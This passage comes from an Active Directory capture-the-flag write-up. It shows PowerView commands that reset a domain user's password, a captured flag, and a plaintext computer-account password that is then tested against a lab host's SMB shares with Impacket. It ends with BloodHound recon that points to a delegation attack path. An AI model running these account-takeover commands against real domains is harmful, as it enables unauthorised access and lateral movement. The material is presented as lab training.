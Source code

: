Testing this theory out, we can user PowerView again, with `Set-DomainUserPassword` feature.

```powershell
PS C:\> $writeradminNewPass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\> Set-DomainUserPassword -Domain 5x.1xx.206.45 -Identity writeradmin -AccountPassword $writeradminNewPass -Credential $user1credObject
```
As this command has no output on success, it is time to test out if it really worked. Trying to use ADExplorer with this account gives us a new view:

<img src="/images/adchall21/flag1.png">

And we got ourself the first flag! And a Computer Account password for `App2$`.

> flag{never_caught_a_rabbit}  Computer Account password: MdXShCaeOviiTzxk3g0G

We can once again check if it is a valid credential or not:

```powershell
PS C:\> smbclient.py 'App2$':MdXShCaeOviiTzxk3g0G@51.137.206.45
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# ls
[-] No share selected
# shares
ADMIN$
C$
D$
F$
IPC$
NETLOGON
SYSVOL
# use ADMIN$
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
```

The user/pass works... but we are not admins, *yet*!

## Recon Stage #2

We now have two new accounts to explore. First thing, we can now complete the table with the missing SID for `App2$`. Next, running `SharpHound` again in the two new accounts gives us some insights on the next steps.

First for `writeradmin`:

<img src="/images/adchall21/writeradmin.png">

Then for `App2$`:

<img src="/images/adchall21/app2.png">

While `writeradmin` does not give any new information beyond what we already knew, Bloodhound showed that a certain SID (1105) -- corresponding to `App2$` -- is `AllowedToAct` on `App1$`.
